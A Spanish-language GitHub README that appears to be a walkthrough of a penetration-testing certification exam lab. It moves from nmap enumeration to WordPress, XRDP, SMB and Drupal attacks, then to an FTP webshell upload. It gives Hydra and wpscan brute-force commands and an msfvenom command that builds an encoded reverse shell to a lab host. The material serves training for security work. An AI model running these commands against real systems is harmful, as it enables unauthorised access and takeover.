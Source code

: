 # Easy-JPT
Suerte con la certificación, no recomiendo usar Metasploit si son nuevos.. mejor entiendan las vulnerabilidades
---

## **Tabla de Contenidos**
1. [Enumeración Inicial](#enumeración-inicial)
2. [Explotación de WordPress](#explotación-de-wordpress)
3. [Fuerza Bruta a XRDP](#fuerza-bruta-a-xrdp)
4. [Fuerza Bruta a SMB](#fuerza-bruta-a-smb)
5. [Explotación de Drupal](#explotación-de-drupal)
6. [Explotación de FTP](#explotación-de-ftp)
7. [Recomendaciones Generales](#recomendaciones-generales)

---

## **Enumeración Inicial**

El primer paso en cualquier examen o actividad de pentesting es la **enumeración o reconocimiento**. Utilicé `nmap` para escanear la red completa y descubrir servicios abiertos:

1. **Comando utilizado**: Realicé un escaneo con los scripts comunes y la detección de versiones para identificar los servicios disponibles "nmap -sC -sV -v 192.168.100.0/24".

2. **Resultados**:
   - 4 máquinas con servicios HTTP (puerto 80).
   - 2 máquinas con bases de datos MySQL.
   - 2 máquinas con XRDP (protocolo RDP).
   - Otros servicios como FTP y SMB en diferentes hosts.

3. **Hostname importante**: Encontré que uno de los servicios en `192.168.100.50` requería agregar el dominio `wordpress.local` en el archivo `/etc/hosts` para acceder al sitio web.

---

## **Explotación de WordPress**

1. **Enumeración de WordPress**:
   - Utilicé `wpscan` para enumerar usuarios y plugins.
   - Los usuarios y plugins detectados fueron claves para planear un ataque de fuerza bruta.
   - comandos: wpscan --url http://wordpress.local/ -e u; wpscan --url http://wordpress.local/ -e p;

2. **Fuerza Bruta de Contraseñas**:
   - Probé credenciales utilizando una lista de contraseñas conocida (`rockyou.txt`).
   - Después de descomprimir la lista de contraseñas (`gzip -d /usr/share/wordlists/rockyou.txt.gz`), ejecuté el ataque y logré obtener acceso.
   - comando con wpscan: wpscan --url http://wordpress.local/ --passwords /usr/share/wordlists/rockyou.txt

3. **Escalación a Shell**:
   - Subí un plugin malicioso manualmente para obtener una **reverse shell** manualmente.
   - Alternativamente, pueden usar el módulo `wp_admin_shell_upload` de Metasploit para automatizar este paso. Es importante activar el plugin desde el panel de WordPress si no funciona inmediatamente modificar el shell porque lo agregar para linux y la maquina es windows.

---

## **Fuerza Bruta a XRDP**

Hay dos máquinas con XRDP habilitado. Para realizar un ataque de fuerza bruta:

1. **Preparación de usuarios y contraseñas**:
   - Creé una lista de posibles usuarios basada en la información obtenida durante la enumeración.

2. **Ataque de fuerza bruta**:
   - Realicé fuerza bruta utilizando Hydra. Una vez encontradas las credenciales, accedí al escritorio remoto con `xfreerdp`.

3. **Escenario clave**:
   - Una de las máquinas permitía acceso como **root** mediante XRDP, lo que simplificó el control total del sistema.

4. **comandos**
   Fuerza bruta:

   hydra -L usuarios.txt -P  /usr/share/wordlists/rockyou.txt -t 4 -V rdp://192.168.100.52

   Para acceder:
   xfreerdp /u:el usuario /p:la password /v:192.168.100.52

---

## **Fuerza Bruta a SMB**

1. **Enumeración de Recursos Compartidos**:
   - Enumeré recursos SMB utilizando herramientas como `smbclient` y `enum4linux`.

2. **Fuerza Bruta de Credenciales**:
   - Utilicé Hydra para realizar ataques de fuerza bruta en el servicio SMB. Con las credenciales obtenidas, accedí a los recursos compartidos y extraje información relevante.

3. **comandos**:

hydra -L usuarios.txt -P /usr/share/wordlists/rockyou.txt smb://<IP_del_objetivo>
---

## **Explotación de Drupal**

1. **Identificación de la versión**:
   - Detecté que uno de los servidores estaba ejecutando una versión vulnerable de Drupal (CVE-2018-7600).

2. **Uso de Metasploit**:
   - existe el módulo `drupal_drupalgeddon2` para intentar obtener una shell.
   - Si el exploit no devuelve una shell estable, consideren usar técnicas como port forwarding o proxies para mejorar la conectividad.
    -al final al conectarte por xrdp eres root entonces no hay que hacer escalacion
---

## **Explotación de FTP**

1. **Subida de Webshell**:
   - accedan al servidor FTP donde subí una **webshell** (`shell.aspx`), debemos tener encuenta que existe un webshell, pero con anonymous pueden subir el archivo asi que mejor una revershell... lo consultan en la web http://192.168.100.51/shell.aspx no olvides escuchar con netcat....
   - si no te deja copiar o algun error X: usa msfvenom.... msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=192.168.100.5 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx; y escuchas por el multi/handler

2. **Ejecución de la Webshell**:
   - configuren un listener (`nc`) para recibir la conexión y ejecuté la shell accediendo a su ruta desde el navegador "nc -lnvp (#)".

3. **Resultado**:
   - Obtención de acceso al sistema mediante una **reverse shell**.

---

## **Recomendaciones Generales**

1. **Enumeración exhaustiva**: Herramientas como `nmap`, `wpscan` y `enum4linux` son clave para identificar puntos de entrada.
2. **Uso de Hydra**: Es una herramienta poderosa para fuerza bruta en servicios como XRDP, SMB y FTP.
3. **Documentar todo**: Anoten usuarios, contraseñas y comandos utilizados para facilitar la resolución de preguntas del examen y hagan sus diccionarios propios.
4. **Prueben manualmente**: Aunque Metasploit es útil, es importante entender los procesos manuales detrás de los exploits.
5. **Existe una pregunta de usuarios como contraseña de alguno y si existen**: si es por xrdp, revisen remote desktop y enumeren manualmente... primero validar que existan con net user. 

## **Maquinas de HTB para practicar**

HTB - armagedon-

HTB - Blocky-

HTB -Devel-

HTB -Explosion-


---

SUERTE! 

![image](https://github.com/user-attachments/assets/2d5674de-bb61-4afe-a0ce-c4d95e982af0)
